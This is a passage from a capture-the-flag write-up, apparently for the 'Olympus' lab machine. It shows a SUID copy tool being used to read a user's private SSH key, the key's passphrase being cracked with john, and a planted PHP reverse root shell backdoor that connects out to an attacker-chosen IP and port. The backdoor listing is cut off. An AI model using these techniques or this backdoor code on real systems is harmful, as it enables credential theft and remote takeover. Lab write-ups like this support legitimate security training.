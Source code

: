 
```
$ /usr/bin/cputils
  ____ ____        _   _ _     
 / ___|  _ \ _   _| |_(_) |___ 
| |   | |_) | | | | __| | / __|
| |___|  __/| |_| | |_| | \__ \
 \____|_|    \__,_|\__|_|_|___/
                               
Enter the Name of Source File: /home/zeus/.ssh/id_rsa

Enter the Name of Target File: /tmp/id_rsa

File copied successfully.
```
🚩 Open with vim and Copy & Paste to the local file. id_rsa needed pass.

```
ssh2john zeus_rsa > hash

john hash -w=/usr/share/wordlists/rockyou.tx

ssh zeus@olympus.thm -i zeus_rsa
```

```
find /var/www -group zeus 2>/dev/null

/var/www/olympus.thm/public_html/~webmaster/search.php
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/index.html
/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php
```
🚩 I couldn't find files and checked writeups. 😃

```
cat /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php

<?php
$pass = "a7*********************************9";
if(!isset($_POST["password"]) || $_POST["password"] != $pass) die('<form name="auth" method="POST">Password: <input type="password" name="password" /></form>');

set_time_limit(0);

$host = htmlspecialchars("$_SERVER[HTTP_HOST]$_SERVER[REQUEST_URI]", ENT_QUOTES, "UTF-8");
if(!isset($_GET["ip"]) || !isset($_GET["port"])) die("<h2><i>snodew reverse root shell backdoor</i></h2><h3>Usage:</h3>Locally: nc -vlp [port]</br>Remote: $host?ip=[destination of listener]&port=[listening port]");
$ip = $_GET["ip"]; $port = $_GET["port"];

$write_a = null;
$error_a = null;

$suid_bd = "/lib/defended/libc.so.99";
$shell = "uname -a; w; $suid_bd";

chdir("/"); umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if(!$sock) die("couldn't open socket");

$fdspec = array(0 => array("pipe", "r"), 1 => array("pipe", "w"), 2 => array("pipe", "w"));
$proc = proc_open($shell, $fdspec, $pipes);

if(!is_resource($proc)) die();

for($x=0;$x<=2;$x++) stream_set_blocking($pipes[x], 0);
```